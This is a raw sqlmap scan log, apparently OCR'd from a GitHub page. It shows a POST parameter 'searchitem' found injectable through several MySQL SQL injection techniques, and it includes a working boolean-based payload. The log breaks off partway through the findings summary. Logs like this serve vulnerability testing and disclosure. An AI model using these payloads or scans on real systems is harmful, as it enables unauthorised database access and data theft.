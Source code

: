 ```
[23:18:54] [INFO] testing connection to the target URL
[23:18:54] [INFO] checking if the target is protected by some kind of WAF/IPS
[23:18:54] [INFO] testing if the target URL content is stable
[23:18:54] [INFO] target URL content is stable
[23:18:54] [INFO] testing if POST parameter 'searchitem' is dynamic
[23:18:55] [WARNING] POST parameter 'searchitem' does not appear to be dynamic
[23:18:55] [INFO] heuristic (basic) test shows that POST parameter 'searchitem' might be injectable (possible DBMS: 'MySQL')
[23:18:55] [INFO] heuristic (XSS) test shows that POST parameter 'searchitem' might be vulnerable to cross-site scripting (XSS) attacks
[23:18:55] [INFO] testing for SQL injection on POST parameter 'searchitem'
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n]
[23:18:58] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[23:18:59] [WARNING] reflective value(s) found and filtering out
[23:18:59] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[23:18:59] [INFO] testing 'Generic inline queries'
[23:18:59] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (MySQL comment)'
[23:19:02] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (MySQL comment)'
[23:19:03] [INFO] POST parameter 'searchitem' appears to be 'OR boolean-based blind - WHERE or HAVING clause (MySQL comment)' injectable (with --string="11")
[23:19:03] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)'
[23:19:03] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (BIGINT UNSIGNED)'
[23:19:03] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXP)'
[23:19:03] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (EXP)'
[23:19:03] [INFO] testing 'MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)'
[23:19:03] [INFO] POST parameter 'searchitem' is 'MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)' injectable
[23:19:03] [INFO] testing 'MySQL inline queries'
[23:19:03] [INFO] testing 'MySQL >= 5.0.12 stacked queries (comment)'
[23:19:03] [INFO] testing 'MySQL >= 5.0.12 stacked queries'
[23:19:03] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP - comment)'
[23:19:03] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP)'
[23:19:03] [INFO] testing 'MySQL < 5.0.12 stacked queries (heavy query - comment)'
[23:19:03] [INFO] testing 'MySQL < 5.0.12 stacked queries (heavy query)'
[23:19:03] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[23:19:13] [INFO] POST parameter 'searchitem' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable
[23:19:14] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[23:19:14] [INFO] testing 'MySQL UNION query (NULL) - 1 to 20 columns'
[23:19:14] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[23:19:14] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[23:19:14] [INFO] target URL appears to have 3 columns in query
[23:19:14] [INFO] POST parameter 'searchitem' is 'MySQL UNION query (NULL) - 1 to 20 columns' injectable
[23:19:14] [WARNING] in OR boolean-based injection cases, please consider usage of switch '--drop-set-cookie' if you experience any problems during data retrieval

sqlmap identified the following injection point(s) with a total of 88 HTTP(s) requests:
---
Parameter: searchitem (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (MySQL comment)
    Payload: searchitem=-9825' OR 6756=6756#

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
```